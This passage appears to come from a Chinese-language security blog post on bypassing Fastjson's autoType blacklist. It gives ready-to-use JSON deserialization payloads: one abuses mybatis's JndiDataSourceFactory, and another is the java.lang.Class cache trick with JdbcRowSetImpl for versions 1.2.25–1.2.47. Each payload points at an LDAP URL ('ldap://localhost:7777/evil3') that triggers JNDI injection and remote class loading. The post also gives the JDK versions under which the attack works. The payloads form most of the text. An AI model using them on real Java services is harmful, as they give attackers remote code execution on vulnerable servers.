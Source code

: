 这次先给出POC：

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"ldap://localhost:7777/evil3"
    }
}
```

或者：

```json
{
    "@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    "properties":{
        "data_source":"snakin",
        "initial_context":"ldap://localhost:7777/evil3"
    }
}
```

![image-20220717151037212](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717151037212.png)

### 绕过分析

在1.2.44版本添加了新的判断，如果类名以 `[` 开始则直接抛出异常

![image-20220717151701255](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717151701255.png)

由于`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`不在黑名单中，因此能成功绕过checkAutoType()函数的检测。

接下来我们在该类的setter方法断点：

![image-20220717152143795](https://cosmoslin.oss-cn-chengdu.aliyuncs.com/img2/image-20220717152143795.png)

这里两个分支即为jndi注入调用点，我们选择任意一个分支构造poc即可

## Fastjson1.2.25-1.2.47绕过

### 说明

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

其他的限制：基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191

这里由于在1.2.46版本中mybatis类加入了黑名单，无法继续利用。

poc：

```java
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://localhost:7777/evil3",
		"autoCommit": true
	}
}
```
